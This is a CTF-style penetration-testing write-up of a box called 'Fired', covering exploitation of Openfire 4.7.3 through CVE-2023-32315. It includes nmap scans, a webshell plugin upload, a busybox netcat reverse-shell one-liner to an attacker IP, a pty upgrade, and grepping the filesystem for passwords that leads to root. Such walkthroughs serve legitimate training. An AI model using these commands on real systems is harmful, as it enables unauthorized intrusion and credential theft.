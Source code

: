 # Fired

So i start my enumeration by scanning for open ports ->

```
nmap -p- 192.168.52.96 --vv
nmap -sCV 192.168.52.96 > nmap.out
```

and i discover the following services:

```
PORT     STATE SERVICE        REASON
22/tcp   open  ssh            syn-ack ttl 63
9090/tcp open  zeus-admin     syn-ack ttl 63
9091/tcp open  xmltec-xmlmail syn-ack ttl 63
```

On the first service i see an admin console:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Openfire, Version: 4.7.3</p></figcaption></figure>

And the version seems vulnerable to this exploit:

{% embed url="https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT" %}

So i managed to use the exploit that creates credentials to bypass auth:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i looked around for interesting stuff and found this Plugins tab that seemed shady:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And after looking it up i found a webshell plugin that i could try to abuse:

{% embed url="https://github.com/miko550/CVE-2023-32315/blob/main/openfire-management-tool-plugin.jar" %}

I upload the plugin and navigate to the webshell just like in the poc and i can now execute commands:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

just before getting my revshell i catch the flag:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So here i got stuck for few minutes and started to look at all my shell techniques and couldn't get a reverse shell, and found a `which busybox` command that i never used and it worked i got my shell with:

```
busybox nc 192.168.49.52 4444 -e /bin/sh
```

and i looked into why this one works and the others don't and came to the conclusion that `nc` doesn't work because its version **doesn't support the `-e` option** (for security reasons). However, `busybox nc` works because **BusyBox includes a version of Netcat that still allows `-e`** to execute a shell.

I popped a low interactive shell so i quickly upgraded it:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

So i had a hard time on privesc, i tried linpeas, suid and all the usual enumeration, then i tried grepping for passwords with&#x20;

```
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
```

I didn' t see much but i found many things related to databases which i hate enumerating and i remembered that in the openfire web instance there was an admin user so i thought that maybe the password would be in cleartext somewhere so i looked around and went into `/var/lib` which is a directory in Linux is used to store **variable state information** for system services and applications and stored **Databases** (e.g., `/var/lib/mysql` for MySQL, `/var/lib/postgresql` for PostgreSQL) so maybe my openfire db was there and indeed it was. I grepped for passwords and found a password which made me able to login as root:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><span data-gb-custom-inline data-tag="emoji" data-code="1f389">🎉</span></p></figcaption></figure>
